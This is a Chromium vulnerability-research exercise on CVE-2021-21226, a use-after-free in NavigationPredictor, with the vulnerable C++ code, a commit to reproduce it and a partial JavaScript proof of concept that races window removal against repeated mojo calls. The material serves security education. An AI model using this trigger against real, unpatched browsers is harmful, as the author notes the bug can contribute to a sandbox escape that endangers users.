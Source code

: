 # Exercise 1

In LEVEL 1, we can relay on Details and just to search for the func which Details mentioned. It is far away from the real bug hunting scene.

LEVEL 2 we do the same as LEVEL 1 without the help of Details.

But the bug report need Poc to assist developer reproduce the vulnerability, and know exactly what cause this bug. So LEVEL 3 need we construct Poc by ourselves.

## CVE-2021-21226
I sugget you don't search any report about it to prevents get too much info like patch. Our goal is to find some bugs, not construct Poc. But in truth, Poc can proof that we are right.



### Details

In level 3, we do it without the help of Details


---------

<details>
  <summary>For more info click me! But you'd better not do this</summary>

  https://bugs.chromium.org/p/chromium/issues/detail?id=1197904

</details>

--------

### Set environment

after you fetch chromium
```sh
git reset --hard f65d388c65bafd029be64609eb5e29243376f8ed
```


### Related code
chrome/browser/navigation_predictor/navigation_predictor.cc


### Do it
Do this exercise by yourself, when you have some idea, you can compare your answer with me. If you find my answer have something wrong, please tell me.


---------

<details>
  <summary>My answer</summary>

  ```c++
  // It is possible for this class to still exist while its WebContents and
  // RenderFrameHost are being destroyed. This can be detected by checking
  // |web_contents()| which will be nullptr if the WebContents has been
  // destroyed.
  ```
  By this comment, we can get if we need do some by `browser_context_` we need check whether web_contents_ alive to provent UAF.

  ```c++
  // This class gathers metrics of anchor elements from both renderer process
// and browser process. Then it uses these metrics to make predictions on what
// are the most likely anchor elements that the user will click.
class NavigationPredictor : public blink::mojom::AnchorElementMetricsHost,
                            public content::WebContentsObserver,
                            public prerender::NoStatePrefetchHandle::Observer {
 public:
  explicit NavigationPredictor(content::WebContents* web_contents);
  ~NavigationPredictor() override;
  // [ ... ]
   private:
  // Used to get keyed services.
  content::BrowserContext* const browser_context_;   // raw ptr
  ```
  > Previously, it was possible for the BrowserContext to be destroyed
  before ReportAnchorElementMetricsOnClick attempted to access it.
  > 
  > The fix uses the fact that NavigationPredictor extends
  WebContentsObserver and checks that web_contents is still alive
  before dereferencing BrowserContext. WebContents will always
  outlive BrowserContext.

  **Poc**
  Because this cve is about mojo and can make sandbox escape, so we need some knowledge about how bind mojo interface. You can read [offical doc](https://chromium.googlesource.com/chromium/src/+/HEAD/mojo/public/js/README.md#interfaces) or other chrome ctf challenge wp(recommend)

  We just need call `ReportAnchorElementMetricsOnClick` after remove window by race.
  ```c++
void NavigationPredictor::ReportAnchorElementMetricsOnClick(
    blink::mojom::AnchorElementMetricsPtr metrics) {
  DCHECK_CALLED_ON_VALID_SEQUENCE(sequence_checker_);
  DCHECK(base::FeatureList::IsEnabled(blink::features::kNavigationPredictor));

  if (browser_context_->IsOffTheRecord())        [1]
    return;

  if (!IsValidMetricFromRenderer(*metrics)) {
    mojo::ReportBadMessage("Bad anchor element metrics: onClick.");
    return;
  }
[ ... ]
  ```
  [1] has no check whether the `browser_context_` has been freed, so we can remove the window then call `ReportAnchorElementMetricsOnClick` to trigger uaf.

  The following code is just a demo, you can get complete code [here](https://bugs.chromium.org/p/chromium/issues/detail?id=1197904)
  ```js
async function poc() {
  // call ReportAnchorElementMetricsOnClick for mulipy
	let win1 = await createWindow({url: "https://localhost:8080/child.html", incognito: true});
  
  // remove the window
	setTimeout(function() {
		removeWindow(win1.id);
	}, 1200);
}

// in child.html
async function posttask() {
    const MAX = 65536;
    for(var i = 0 ; i < MAX; i++){
      // call ReportAnchorElementMetricsOnClick to trigger uaf
        anchor_ptr.reportAnchorElementMetricsOnClick(anchor_elements);
    }
}

setTimeout(function() {
    posttask();
}, 1000);
  ```

  we trigger race by `setTimeout`


</details>

--------
